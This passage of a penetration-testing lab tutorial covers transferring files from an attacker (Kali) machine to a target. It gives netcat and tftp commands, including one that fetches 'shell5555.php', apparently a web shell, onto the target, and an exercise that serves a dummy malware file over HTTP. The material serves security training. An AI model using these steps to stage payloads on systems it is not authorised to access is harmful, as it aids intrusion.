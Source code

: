 
## Netcat
Another easy way to transfer files is by using netcat.

Netcat is a command line tool for writing and reading data in the network. For data transfer, Netcat uses the TCP/IP and UDP network protocols. Originally, this tool comes from the Unix universe but today it is available on all platforms

Because of its versatility, Netcat is often referred to as the "Swiss Army knife of TCP/IP". For example, it can be used to diagnose errors and problems that jeopardize the functionality and security of a network. Netcat's range of features also includes port scanning, data streaming or simple data transfers. In addition, it can be used to set up chat and web servers as well as to initiate email requests. This simple software was developed in the mid-1990s and can operate in both server and client mode.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because that will kill your session.

So instead you can connect from the target machine like this.

On kali machine:
````
nc -lvp 4444 < file
````

On student machine:
````
nc 10.12.181.X 4444 > file
````


## Tftp
On some rare machine we do not have access to nc and wget, or curl. But we might have access to tftp. Some versions of tftp are run interactively, like this:
````
$ tftp 10.12.181.X
tftp> get myfile.txt
````

If we can't run it interactively, for whatever reason, we can do this trick:

````
tftp 10.12.181.X <<< "get shell5555.php shell5555.php"
````

## Exercises 

1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, create a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command :
